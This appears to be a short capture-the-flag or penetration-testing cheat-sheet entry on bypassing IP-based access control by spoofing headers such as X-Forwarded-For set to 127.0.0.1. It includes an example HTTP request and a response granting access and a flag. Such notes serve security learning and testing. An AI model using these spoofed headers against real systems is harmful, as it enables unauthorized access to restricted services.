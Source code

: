 # IP Access Control

Try to bypass IP access control using following headers in request:

* X-Originating-IP: 127.0.0.1
* X-Forwarded-For: 127.0.0.1
* X-Remote-IP: 127.0.0.1
* X-Remote-Addr: 127.0.0.1

Example:
```
GET /index.php HTTP/1.1
Host: site.com
X-Forwarded-For: 127.0.0.1
Connection: keep-alive
```

Response:
```
Your IP address is 127.0.0.1<br>
Access granted. Flag is ...
```
